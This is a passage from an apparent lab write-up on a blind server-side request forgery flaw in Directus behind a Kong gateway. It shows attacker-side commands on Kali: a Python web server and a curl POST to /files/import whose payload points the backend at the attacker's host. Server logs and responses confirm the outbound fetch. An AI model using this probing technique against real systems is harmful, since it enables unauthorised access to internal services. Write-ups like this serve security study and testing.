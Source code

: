```bash
X-Kong-Upstream-Latency: 214
X-Kong-Proxy-Latency: 0
Via: kong/2.2.1

{"errors":[{"message":"Request failed with status code 404","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}                                                                                                                          
┌──(kali㉿kali)-[~]
└─$
```
Then check your HTTP sever:
```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.130.135 - - [28/Jul/2025 14:07:42] code 404, message File not found
192.168.130.135 - - [28/Jul/2025 14:07:42] "GET /ssrftest HTTP/1.1" 404 -

```
This backend service is vulnerable to SSRF. The user agent on the request is Axios, an HTTP client for Node.js.

Placing a file named `ssrftest` on the attacker's web server, a `POST` request to `/files/import` with the file’s URL triggered a backend request.
```bash
┌──(kali㉿kali)-[~]
└─$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.45.203/ssrftest"}' http://apigateway:8000/files/import
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 102
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"66-OPr7zxcJy7+HqVGdrFe1XpeEIao"
Date: Tue, 29 Jul 2025 00:23:17 GMT
X-Kong-Upstream-Latency: 166
X-Kong-Proxy-Latency: 1
Via: kong/2.2.1

{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$
```
Although the server returned a `403 Forbidden` error, Server logs confirmed the server accessed the file and received a `200 OK` response.
```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.130.135 - - [28/Jul/2025 20:23:17] "GET /ssrftest HTTP/1.1" 200 -

```
This confirms a **blind SSRF vulnerability**—the backend can make unauthenticated outbound requests, but the response data isn't returned to the attacker.
### Souorce Code Analysis
The SSRF vulnerability in Directus stems from how the `/files/import` endpoint handles requests before performing authentication or authorization.
